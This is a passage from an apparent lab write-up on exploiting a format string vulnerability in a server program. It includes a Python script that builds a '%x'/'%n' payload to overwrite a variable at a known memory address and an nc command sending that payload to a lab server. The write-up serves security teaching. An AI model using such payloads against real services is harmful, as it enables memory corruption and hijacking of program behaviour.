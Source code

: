 

<br>

### Modifying the Server Program’s Memory

The objective of this task is to modify the value of the target variable that is defined in the server program. If this target variable holds an important value that can affect the control flow of the program, attackers can change the behavior of the program if they can modify this value.
We know that the memory address of the target variable is `0x080e5068`

#### Changing the value to a different value

This task involves changing the content of the target variable to any value different from the original. The `%n` format specifier writes the number of characters that have been printed by printf() before its occurrence into a memory address (this memory address corresponds to the corresponding argument for %n%).

Since we know that our offset is 64, we will need to write our code in such a way that the program will print out characters up to offset 63, then use `%n%` at offset 64 to modify the value stored in the memory address of the target variable we provided as the start of our input.

```python
#!/usr/bin/python3
import sys

# Start input with the memory address of the target variable
content = (0x080e5068).to_bytes(4,byteorder='little')

# Append format specifiers to prevent the program from crashing
content += ("%x" * 63).encode('latin-1')

# Access 0x080e5068 and overwrite it's content
content += ("%n").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-3-a](https://github.com/iukadike/blog/assets/58455326/4979740e-f043-412b-89d7-a0e612b73122)


#### Changing the value to 0x5000.

This task involves changing the content of the target variable to "0x5000" rather than a random variable. This is more tricky than the previous task because we need to print out `0x5000 = 20480` characters. We can use precision modifiers (which pad the didgits with zeros to achieve the desired width), which control the minimum number of digits to print to achieve this. Typically, multiple format specifiers with different precision modifiers will have to be used.
